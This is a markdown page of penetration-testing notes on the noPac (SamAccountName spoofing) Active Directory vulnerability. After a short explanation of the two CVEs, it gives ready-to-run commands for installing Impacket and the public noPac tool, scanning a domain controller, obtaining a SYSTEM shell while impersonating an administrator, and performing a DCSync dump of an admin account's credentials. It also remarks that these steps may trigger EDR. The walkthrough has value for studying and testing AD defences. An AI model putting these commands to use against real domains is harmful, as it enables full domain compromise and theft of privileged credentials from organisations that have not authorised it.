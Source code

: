 # Bleeding Edge Vulnerabilities 
## NoPac (**SamAccountName** Spoofing)
A great example of an emerging threat is the [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699), also called `noPac` or referred to as `SamAccountName Spoofing` released at the end of 2021. This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

| 2021-42278                                                                 | 2021-42287                                                                                    |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

### Simplified Exploit Description
1. **Exploit Overview**:
    - Exploit changes a computer account's `SamAccountName` to match a Domain Controller's.
    - Authenticated users can add up to[ 10 computers to a domain](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/add-workstations-to-domain) by default.
    - Kerberos tickets are then requested, tricking the service into issuing tickets under the DC's name.
    - This leads to access as the DC service, potentially granting a SYSTEM shell on the Domain Controller.
    - The flow of the attack is outlined in detail in this [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).
    - We can use this [tool](https://github.com/Ridter/noPac) to perform this attack.
2. **Preparation**:
    - `noPac` uses Impacket for communication, payload uploads, and command execution.
3. **Setup Commands**:
 1.Ensure `Impacket` is installed:
``` shell
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install
```
 2. Cloning the NoPac Exploit Repo
``` shell
git clone https://github.com/Ridter/noPac.git
```
### check if the system is vulnerable using a scanner
```shell
sudo python3 scanner.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -use-ldap
```
Results in success:
![image](https://github.com/user-attachments/assets/4af1d976-2d20-4824-9e4d-206d1ee0cf31)
### Running NoPac & Getting a SYSTEM Shell
```shell
sudo python3 noPac.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -dc-host DC_HOSTNAME -shell --impersonate ADMIN_USER -use-ldap
```
### Using NoPac to Perform a DCSync Attack:
```shell
sudo python3 noPac.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -dc-host DC_HOSTNAME --impersonate ADMIN_USER -use-ldap -dump -just-dc-user DOMAIN/ADMIN_ACCOUNT
```
![image](https://github.com/user-attachments/assets/dc210d2b-862e-497b-b2b7-936f1e2afa66)

### **Key Notes**

1. **TGT Persistence**: The exploit saves the Ticket Granting Ticket (TGT) in the current directory on the attack host. This can be used for further exploitation.
2. **Noise and Detection**: Using these exploits can generate significant activity, which may trigger antivirus (AV) or endpoint detection and response (EDR) systems.
3. **Generic Input Placeholders**: Replace `DOMAIN`, `USERNAME`, `PASSWORD`, `DC_IP`, and `DC_HOSTNAME` with values specific to your target environment.



